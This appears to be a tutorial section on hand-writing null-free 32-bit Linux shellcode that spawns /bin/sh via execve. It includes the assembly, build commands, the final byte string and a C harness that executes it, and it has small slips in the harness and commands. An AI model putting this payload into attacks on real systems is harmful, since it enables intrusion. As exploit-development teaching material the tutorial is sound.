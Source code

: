 # Spawn-shell shellcode
In this section I am going to write shellcode that pops a /bin/sh shell.  
To create this, we are going to write assembly code first and this time,  
we are going to avoid getting zero's in the byte dump.  
  
To obtain a shell, we have to execute the program located on /bin/sh, this can be done with  
the system call function execve(). If we look at the man page of execve(),  
we can see that it has 3 parameters.  

``` C++
// https://linux.die.net/man/2/execve
int execve(const char *pathname, char *const argv[],
                  char *const envp[]);
```

The first parameters will contain a string to a path of the program to execute.  
The string //bin/sh has 8 characters, so it will fit in 2 32 bit addresses.  
First we push the zero byte to the stack, so that the /bin/sh string will have a string terminator,  
when it runs, but not in the code. The string //bin/sh needs to be put in hexadecimal  
values and reversed. It needs to be reversed because the program has a little endianess  
system.  
  
```asm

xor eax, eax            ; eax = 0 -> string terminator
push eax                ; push the string terminator
push 0x68732f6e         ; pushes the string 'hs/n'
push 0x69622f2f         ; pushes the string 'ib//'

; this makes '\0hs/nib//' -> reversed -> '//bin/sh\0'
; The \0 is the string terminator which is stored in the xor'red eax register

mov ebx, esp            ; move the string in the stack to ebx
```
  
For the other parameters in the execve() function we will pass a zero,  
because we don't need them. The code will eventually look like this.
  
spawn_shell.asm
```asm
section .text
global _start

_start:
        xor eax, eax
        push eax                ; string terminator

        ; //bin/sh
        push 0x68732f6e
        push 0x69622f2f
        
        mov ebx, esp            ; move stack buffer to ebx
        xor ecx, ecx
        xor edx, edx
        mov al, 0xb             ; execve()
        int 0x80
```  
  
As you can see, the execve() has a syscall value of 11, this is  
found in the unistd.h header file.   
The file-location is at: /usr/include/asm/unistd.h  
  
To compile the assembly code:  
```bash
nasm -f elf spawn_shell.asm
ld -m elf_i386 spawn_shell.o -o spawn_shell32
```
  
And extract the bytes with:  
```bash
objdump -d ./spawn_shell -M intel
```

The shellcode will be something like this:
``` Python
shellcode = \
  "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80"
# size of 23 characters
```

For testing the shellcode, we are going to create  
a small C program.
The code for the program is
```C++
// tester.c:
include <iostream>

char *shell = "shellcode ...";

int main() {

        void (*func)();
        func = (void(*)())shell;
        (*func)();
}
```
  
Compile the tester and execute  
```bash
g++ -o shellcode_tester tester.c --no-warnings -m32 -z execstack
./shellcode_tester
```
